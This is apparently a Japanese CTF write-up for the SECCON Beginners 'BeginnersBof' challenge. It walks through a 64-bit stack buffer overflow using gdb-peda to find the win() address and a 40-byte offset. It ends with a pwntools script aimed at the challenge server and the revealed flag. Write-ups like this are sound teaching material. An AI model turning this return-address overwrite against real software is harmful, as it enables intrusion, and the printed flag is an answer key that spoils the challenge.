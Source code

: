 # BeginnersBof
時間内に解けなかった問題<br>
バッファオーバーフローの問題で，当時解けなかったけど「はじめて学ぶバイナリ解析」読んだ後だとすぐに解くことができた．<br><br>
まずは配布されたサーバーで動いているであろう実行ファイルを`file`コマンドで調べてみる．<br>
~~~
lab@D-PC:/media/sf_host_share$ file chall 

chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=86ef4ca27c36d4407e00eb318b228011ce11ac63, for GNU/Linux 3.2.0, not stripped
~~~
<br>
ここで注意すべき点は32bitじゃなくて64bitの実行ファイルであるということ．gdbでデバッグする前に，配布されたc言語のソースファイルの方も確認してみる．<br><br>

~~~
void win() {
    char buf[0x100];
    int fd = open("flag.txt", O_RDONLY);
    if (fd == -1)
        err(1, "Flag file not found...\n");
    write(1, buf, read(fd, buf, sizeof(buf)));
    close(fd);
}
~~~
<br>
すると，win関数内にflagらしきファイルを開いているコードがあった．main関数からは呼ばれないみたいなので，バッファオーバーフローにてfgets関数のreturnアドレスをwin関数のアドレスに書き換え，win関数を呼び出せばよさそう．というわけでgdbでアドレス検索．
<br><br>
<img width="451" alt="キャプチャ" src="https://user-images.githubusercontent.com/64766627/175052378-851260f4-b9d9-4970-b7c3-d971f25fb9e6.png"><br><br>
gdb内で`p win`と打つだけでwin()のアドレスが0x4011e6であると分かった．便利．次に，リターンアドレスを書き換えるにあたって，入力可能アドレスからリターンアドレスまでのオフセットを知る必要がある．<br><br>

~~~
gdb-peda$ b main

Breakpoint 1 at 0x401267

gdb-peda$ r
~~~
<br>
ブレークポイントをmain()に仕掛け，デバッグ開始．nもしくはsで1行ずつ進めていくと，入力可能箇所が2回出る．1個目が長さ，2個目が文字列なので，ペイロードを送信する場所になるのは2個目となる．1個目はここでは100とし，2個目はAを10回入力することにした．<br><br>
<img width="451" alt="キャプチャ" src="https://user-images.githubusercontent.com/64766627/175055129-ac68c0a6-77dc-4b4c-9b35-5fc09949ac43.png"><br><br>
するとスタック内はこんな感じになった．topから入力したA10個が格納され，top+24以降には長さ0x64(=100)，top+40以降にはmain関数に戻るためのreturnアドレスが入っていることが分かる．これでオフセットが40であることが分かった．あとは問題サーバーにバッファオーバーフローを仕掛けるだけ．同ディレクトリのexploit.pyと同じだが，作成したファイルはこんな感じ．<br><br>

~~~
from pwn import *

#接続先
p=remote("beginnersbof.quals.beginners.seccon.jp", 9000)

#2個目の送信内容
#payload = b'A' * 40 + p64(0x4011e6)
#↑でも可能
payload = b'A' * 40 + pack(0x4011e6, word_size='64', endianness='little')

#1個目の質問に対する返答．長ければ100でも10000でも大丈夫
p.sendline(b"1000")
#2個目の質問でペイロードの送信
p.sendline(payload)
#出力表示
p.interactive()
~~~
<br>
コードの意味はコメントを確認してね．実行ファイルが64bitなのでペイロードを書くときは要注意．実行すればflagが手に入った．

<br>
<details>
<summary>BeginnersBofの答え</summary>
ctf4b{Y0u_4r3_4lr34dy_4_BOF_M45t3r!}<br><br>
<img width="447" alt="キャプチャ" src="https://user-images.githubusercontent.com/64766627/175057871-2edebda9-6bc0-44b8-b7e5-a45b06065e36.png">

</details>